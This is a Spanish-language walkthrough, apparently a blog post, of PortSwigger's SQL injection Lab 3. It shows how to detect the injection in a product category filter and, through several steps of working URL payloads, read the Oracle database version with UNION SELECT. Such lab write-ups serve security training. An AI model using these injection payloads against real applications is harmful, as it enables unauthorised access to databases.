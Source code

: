 ```yaml
---
title: SQLI Lab 3
date: 2024-11-13 12:33:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on Oracle
  - Oracle Database
image:
  path: /assets/img/SQLI-Lab-3/Portswigger.png
---
```


## Skills

- SQL injection attack, querying the database type and version on Oracle

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Utilizaremos un ataque `UNION` para obtener los resultados de la consulta, para `resolver` el `laboratorio`, hay que mostrar la `versión` de la `base` de `datos`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-3/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-3/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-3/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-3/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos identificar cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no `obtendremos` ningún `error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-3/image_5.png)

Sin embargo, si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-3/image_6.png)

A continuación usamos `union select` para señalar ambos campos, usamos `from dual` al final porque en este caso la base de datos es `Oracle`

```
/filter?category=Lifestyle'union+select+null,null+from+dual--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`, en PayloadsAllTheThings [https://github.com/swisskyrepo/PayloadsAllTheThings.git](https://github.com/swisskyrepo/PayloadsAllTheThings.git) podemos encontrar diferentes formas de `enumerar` bases de datos y de practicar `inyecciones SQL`

```
/filter?category=Gifts'+union+select+null,banner+from+v$version--+-
```

![](/assets/img/SQLI-Lab-3/image_7.png)
